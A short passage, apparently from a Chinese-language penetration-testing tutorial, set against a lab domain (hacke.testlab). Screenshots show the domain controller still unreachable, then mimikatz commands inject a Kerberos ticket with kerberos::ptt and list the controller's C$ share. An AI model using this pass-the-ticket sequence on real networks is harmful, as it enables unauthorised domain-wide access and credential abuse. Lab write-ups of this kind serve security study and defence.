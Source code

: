 [![](assets/1705982146-20067f5057791ac200099a2e8bdf0b7c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120222851-3b3b6856-b7a0-1.png)  
Step 7：此时依旧无法访问域控  
[![](assets/1705982146-03c415a542f0494492f594f19c44f9ab.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120222902-41c86c8c-b7a0-1.png)  
Step 8：之后使用 mimikatz 将这个票据导入内存中，然后成功访问域控

```plain
#清空票据
kerberos::purge

#查看票据
kerberos::list

#导入票据
kerberos::ptt [0;cb39c]-2-0-60a10000-Administrator@krbtgt-HACKE.TESTLAB.kirbi

#查看票据
kerberos::list

#访问域控
dir \\dc.hacke.testlab\c$
```
